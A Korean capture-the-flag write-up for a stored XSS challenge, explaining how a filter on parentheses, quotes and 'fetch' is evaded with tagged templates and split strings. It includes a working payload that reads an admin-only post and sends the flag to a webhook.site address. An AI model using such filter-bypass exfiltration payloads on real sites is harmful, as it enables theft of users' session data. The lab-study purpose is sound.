

# 16. XSS #3 — OOB 

## 문제 설명
게시판 본문이 `render_safe=True`로 HTML escape 없이 렌더링된다.
flag는 admin이 작성한 0번 게시글에 있으며 일반 사용자는 접근할 수 없다.
신고 기능을 사용하면 봇이 admin으로 로그인한 뒤 제출한 URL을 방문하므로,
XSS로 admin 세션에서 `/board/0`을 읽어 외부 웹훅으로 유출한다.

## 필터 분석
차단되는 요소: `fetch` 문자열, 이벤트 핸들러 속성(`onerror`·`onload` 등),
괄호 `()`, 따옴표 `'"`, `data:` URI, `javascript:` URI, 문자열 내부를 포함한 `on`.
일반적인 XSS 페이로드를 쓸 수 없다.

## 우회 아이디어
- **괄호 차단** → 함수 호출을 태그드 템플릿(`` fn`...` ``)으로 대체.
- **`fetch` 문자열 차단** → 문자열 연결(`` `fet`+`ch` ``)로 분해해 우회.
- **따옴표 차단** → 백틱 템플릿 리터럴 사용.
- `<script type=module>`로 `await`를 최상위에서 사용.

## 익스플로잇

### 게시글 본문 페이로드
```html
<script type=module>
var c=self[`fet`+`ch`]
var r=await c`/board/0`
var t=await r[`text`]``
var f=t[`match`]`flag{[^}]*}`
var u=`https://webhook.site/<ID>?f=`+f
var i=document[`createElement`]`img`
i[`src`]=u
document[`body`][`append`]`${i}`
</script>
```

### 공격 흐름
1. 일반 계정으로 로그인해 위 페이로드를 본문에 넣어 글을 작성한다.
2. 그 글의 상세 URL을 `/report`에 신고한다.
3. 봇이 admin으로 로그인한 뒤 신고된 글을 열어 XSS가 실행된다.
4. admin 세션으로 `/board/0`을 요청 → 응답에서 `flag{...}`만 추출.
5. `img` 태그의 `src`에 웹훅 URL을 넣어 flag를 외부로 전송한다.
6. webhook.site 로그의 `f` 파라미터에서 flag를 확인한다.



## 플래그
```
flag{7525a1ac60ca2a891dc2}
```
